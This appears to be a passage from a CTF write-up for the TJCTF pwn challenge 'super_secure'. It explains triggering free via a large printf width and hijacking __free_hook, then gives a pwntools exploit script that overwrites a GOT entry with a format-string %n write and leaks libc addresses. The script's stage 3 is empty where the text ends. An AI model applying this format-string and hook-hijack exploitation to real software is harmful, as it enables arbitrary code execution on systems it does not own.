 **How to call the address? - free_hook and malloc**

Because `printf` utilizes `malloc` and `free`, we can trigger a `free` call just by doing `'%65537c'`.

And we can overwrite `__free_hook` to listen to `free` calls, therefore, invoke our own function.

Read [this](https://github.com/Naetw/CTF-pwn-tips#hijack-hook-function) for more info.

Full code:

```python
from pwn import *

# context.log_level = 'debug'
context.binary = './super_secure'

sh = process('./super_secure')
# sh = remote('problem1.tjctf.org', 8009)


def send_payload(payload, p=False):
  sh.sendlineafter('> ', 's')
  sh.sendlineafter(':\n', '123')
  sh.sendlineafter(':\n', payload)
  sh.sendlineafter('> ', 'v')
  sh.sendlineafter(':\n', '123')
  if p:
    sh.recvuntil('====================\n')
    out = sh.recvuntil('====================\n').split('\n')[0]
    print out
  sh.sendline('')
  if p:
    return out

memset_got = 0x00602050
strcmp_got = 0x00602070

secure_service = 0x00400da0

# stage 1: make it loop

stage1 = '%{}x'.format(secure_service)
stage1 += '%28$n  '
stage1 += p64(memset_got)

send_payload(stage1)

# stage 2: leak libc

# for i in range(1, 50):
#   send_payload('%{}$llx'.format(i), True)

output = int(send_payload('%1$llx', True), 16)
system_c = output - 3789731
lib_c_base = system_c - 0x0004f440
pwn_adrr = lib_c_base + 0x10a38c
free_hook = lib_c_base + 0x001ed8e8 + 0x200000

print hex(lib_c_base)
print hex(pwn_adrr)
print hex(free_hook)

pause()

# stage 3: pwn
```